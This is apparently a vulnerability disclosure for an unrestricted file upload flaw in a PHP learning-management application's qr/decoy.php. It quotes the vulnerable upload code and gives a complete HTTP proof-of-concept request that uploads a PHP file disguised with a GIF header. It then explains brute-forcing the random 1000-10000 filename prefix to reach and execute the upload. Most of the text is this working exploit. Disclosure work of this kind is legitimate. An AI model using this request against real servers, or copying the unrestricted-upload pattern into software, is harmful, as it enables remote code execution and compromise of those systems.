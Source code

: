 ### Vulnerability file address

`qr/decoy.php` from line 90

There is no restriction on the type of uploaded files, any file can be uploaded, and the default upload path is `qr/images`,The prefix of the uploaded php file is a random number from 1000 to 10000, which needs to be blasted to know

```php
......
......
......
if (isset($_POST["submit"]))
 {
     #retrieve file title
        $title = $_POST["title"];
     
    #file name with a random number so that similar dont get replaced
     $pname = rand(1000,10000)."-".$_FILES["file"]["name"];
 
    #temporary file name to store file
    $tname = $_FILES["file"]["tmp_name"];
   
     #upload directory path
$uploads_dir = 'images';
    #TO move the uploaded file to specific location
    move_uploaded_file($tname, $uploads_dir.'/'.$pname);
......
......
......
```

### POC

```http
POST /qr/decoy.php HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------213755358710814538253324444915
Content-Length: 474
Origin: http://www.lms.net
Connection: close
Referer: http://www.lms.net/qr/decoy.php
Upgrade-Insecure-Requests: 1

-----------------------------213755358710814538253324444915
Content-Disposition: form-data; name="title"


-----------------------------213755358710814538253324444915
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: text/php

GIF89a<?php phpinfo();?>
-----------------------------213755358710814538253324444915
Content-Disposition: form-data; name="submit"

æäº¤æ¥è¯¢
-----------------------------213755358710814538253324444915--
```

### Attack results pictures

Once we get the correct filename from 1000-10000 blasting, it will be accessible

![image-20220701132744865](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220701132744.png)



![image-20220701132816950](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220701132816.png)